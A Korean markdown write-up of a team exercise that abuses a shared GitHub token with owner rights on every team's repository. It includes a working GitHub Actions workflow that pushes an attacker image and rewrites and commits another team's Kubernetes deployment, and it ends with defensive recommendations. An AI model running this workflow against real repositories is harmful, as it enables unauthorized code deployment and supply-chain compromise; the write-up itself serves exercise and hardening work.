






# 공용 G_TOKEN을 활용한 권한 획득

- 배경
    - 현재 Blue, Red, Green 모든 팀이 공용 G_TOKEN(PAT)을 활용하고 있음
    - 해당 G_TOKEN은 모든 repository에서 OWNER 권한을 가지고 있음
    - workflow에서 해당 repository에 write할 땐, 토큰으로 사용자 권한을 인증함

- 공격 절차
    1. 현재 우리 팀 레포지토리에 G_TOKEN이 secret으로 등록되어 있으므로,
    우리 팀 레포지토리에서 상대팀 workflow 실행 계획 수립
        <details>
        <summary>workflow (build-push-at.yaml)</summary>
        <div markdown="1">

          ```yaml
            name: Build and Push Image
            
            on:
              workflow_dispatch:
            
            permissions:
              contents: write
            
            jobs:
              build-and-push:
                runs-on: ubuntu-latest
                env:
                  IMAGE: ghcr.io/${{ vars.repository_owner }}/application
                steps:
                  - name: Checkout
                    uses: actions/checkout@v4
            
                  - name: Set up QEMU and buildx
                    uses: docker/setup-buildx-action@v3
            
                  - name: Login to GHCR
                    uses: docker/login-action@v2
                    with:
                      registry: ghcr.io
                      username: ${{ vars.actor }}
                      password: ${{ secrets.G_TOKEN }}
            
                  - name: Build and push image
                    uses: docker/build-push-action@v4
                    with:
                      context: .
                      push: true
                      tags: |
                        ${{ env.IMAGE }}:latest
                        ${{ env.IMAGE }}:${{ vars.run_number }}
                      build-args: |
                        TEAM=${{ vars.repository_owner }}
                        COLOR=${{ vars.TEAM_COLOR }}
            
                  - name: Checkout another repo
                    uses: actions/checkout@v4
                    with:
                      repository: ${{ vars.repository_owner_at }}/application
                      path: other
                      token: ${{ secrets.G_TOKEN }}
            
                  - name: Update k8s manifest with new image tag
                    run: |
                      cd other
                      git config user.name "github-actions"
                      git config user.email "actions@github.com"
                      sed -i "s|image: .*|image: ghcr.io/${{ vars.repository_owner }}/application:${{ vars.run_number }}|" k8s/deployment.yaml || true
                      git add k8s/deployment.yaml || true
                      git commit -m "ci: update image to ${{ vars.run_number }}" || true
                      git push || true
          ```

          - Variables
                  
            > ACTOR = "GHCR user"  
            REPOSITORY_OWNER = "GHCR REPO"  
            REPOSITORY_OWNER_AT = "Target REPO"  
            RUN_NUMBER = "Image Tag"  
            TEAM_COLOR = "Attacker Team Color"
            > 
        </div>
        </details>
        <br>
   

    2. workflow에서 ghcr user를 수정하여 상대방 image resitery에 push 여부 확인
        1. 로그인 성공
            
            
            
        2. image push 성공
            
            
            
        
    3. workflow에서 상대방 repository로 checkout 후 push 여부 확인
        1. checkout 후 push 확인
            
            
            
        2. 상대 팀 repo에서 commit 확인
            
            
            
        
    4. 결과
        
    <table>
      <tr>
        <th>Original (Red)</th>
        <th>Changed (Red)</th>
      </tr>
      <tr>
        <td></td>
        <td></td>
      </tr>
      <tr>
        <th>Original (Blue)</th>
        <th>Changed (Blue)</th>
      </tr>
      <tr>
        <td></td>
        <td></td>
      </tr>
    </table>

1. 추가 사항
    1. Blue 수행 시에는 Target에서 우리 image registry를 접근하도록 상대방 deployment 수정
        1. 이 경우에는 GHCR user와 GHCR_REPO를 우리 정보로 설정하면 됨

- 결론
    - PAT를 타 팀과 공용토큰으로 설정했을 경우의 위험성 확인
    - 팀 간 명확한 권한 분리를 위해선 팀별로 토큰을 분리할 필요가 있음
    - 또한 토큰을 탈취당할 시 무분별한 배포를 차단하기 위해서는
    1. 깃허브에서 Branch Rule을 설정해 관리자의 승인 시에만 main에 push 할 수 있도록 설정
    2. commit이 되더라도 못하도록 배포가 되지 않도록 kyverno를 통해 이미지 서명 검증 설정
    이 필요할 것으로 보임